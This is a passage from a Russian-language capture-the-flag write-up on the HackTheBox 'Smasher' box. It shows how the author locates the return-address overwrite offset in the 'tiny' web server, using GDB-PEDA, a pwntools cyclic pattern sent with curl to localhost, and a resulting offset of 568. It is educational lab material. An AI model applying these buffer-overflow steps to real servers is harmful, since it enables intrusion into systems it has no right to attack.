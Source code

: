 Класс: видим, что запрос выбивает child-процесс c general protection fault (или segmentation fault в нашем случае).

### Поиск точки перезаписи RIP

Запустим исполняемый файл сервера в отладчике GDB.

Классический GDB без обвесов по умолчанию следит за выполнением **родительского** процесса, однако [установленный](https://snovvcrash.github.io/2019/11/23/bitterman.html#вооружение-gdb) ассистент PEDA будет мониторить **дочерний** процесс, если в ходе выполнения был форк. Это эквивалентно настройке `set follow-fork-mode child` в оригинальном GDB.

```
root@kali:~# gdb-peda ./tiny
Reading symbols from ./tiny...
gdb-peda$ r 1111
Starting program: /root/htb/boxes/smasher/tiny 1111
listen on port 1111, fd is 3
```

Теперь важный момент: я не могу пользоваться циклическим паттерном де Брёйна, который предлагает PEDA, ведь он содержит символы `'%'` — а они, если помнишь, трактуются сервером как начало URL-кодировки.

[![pattern-peda-percent.png](/assets/images/pwn-kingdom/smasher/pattern-peda-percent.png)](/assets/images/pwn-kingdom/smasher/pattern-peda-percent.png)
{:.center-image}

Следовательно, нам нужен другой генератор. Можно пользоваться `msf-pattern_create -l <N>` и `msf-pattern_offset -q <0xFFFF>`, чтобы создать последовательность нужной длины и найти смещение соответственно. Однако я предпочитаю модуль `pwntools`, который работает в разы быстрее.

[![pattern-msf-pwntools.png](/assets/images/pwn-kingdom/smasher/pattern-msf-pwntools.png)](/assets/images/pwn-kingdom/smasher/pattern-msf-pwntools.png)
{:.center-image}

Как мы видим, ни один из инструментов не использует «плохие» символы, поэтому для генерации вредоносного URL можно юзать любой из них.

```
root@kali:~# curl localhost:1111/$(python -c 'import pwn; print pwn.cyclic(1000)')
File not found
```

Мы отправили запрос на открытие несуществующей страницы при помощи `curl` — а теперь смотрим, какое значение осело в регистре RSP, и рассчитываем величину смещения до RIP.

```
gdb-peda$ x/xw $rsp
0x7fffffffdf48: 0x66616172
root@kali:~# python -c 'from pwn import *; print cyclic_find(unhex("66616172")[::-1])'
568
```

Ответ: 568.

После выхода из отладчика хорошо бы принудительно убить все инстансы веб-сервера — ведь однозначно завершился только child-процесс.


[//]: # (2019-11-20)